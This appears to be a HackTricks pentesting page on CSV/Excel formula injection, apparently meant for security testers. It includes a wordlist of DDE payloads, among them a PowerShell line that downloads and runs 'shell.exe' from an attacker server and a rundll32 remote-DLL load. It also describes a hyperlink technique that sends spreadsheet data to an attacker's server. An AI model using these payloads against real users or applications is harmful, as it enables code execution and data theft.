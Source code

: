 # Formula/CSV/Doc/LaTeX Injection

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>

## Formula Injection

### Info

If your **input** is being **reflected** inside **CSV file**s (or any other file that is probably going to be opened by **Excel**), you maybe able to put Excel **formulas** that will be **executed** when the user **opens the file** or when the user **clicks on some link** inside the excel sheet.

{% hint style="danger" %}
Nowadays **Excel will alert** (several times) the **user when something is loaded from outside the Excel** in order to prevent him to from malicious action. Therefore, special effort on Social Engineering must be applied to he final payload.
{% endhint %}

### [Wordlist](https://github.com/payloadbox/csv-injection-payloads)

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

### Hyperlink

**The following example is very useful to exfiltrate content from the final excel sheet and to perform requests to arbitrary locations. But it requires the use to click on the link (and accept the warning prompts).**

Example taken from [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Let us assume an attack scenario of Student Record Management system of a school. The application allows teacher to enter details of students in the school. The attacker get access to the application and want that all the teacher using the application to get compromised. So the attacker tries to perform CSV injection attack through the web application.\
The attacker need to steal other student’s details. So the attacker uses the Hyperlink formula ad enter it while entering student details.

![](https://payatu.com/wp-content/uploads/2017/11/Selection\_008.png)

When the teacher export the CSV and click on the hyperlink then the sensitive data is sent to the attacker’s server.

![](https://payatu.com/wp-content/uploads/2017/11/Selection\_009.png)
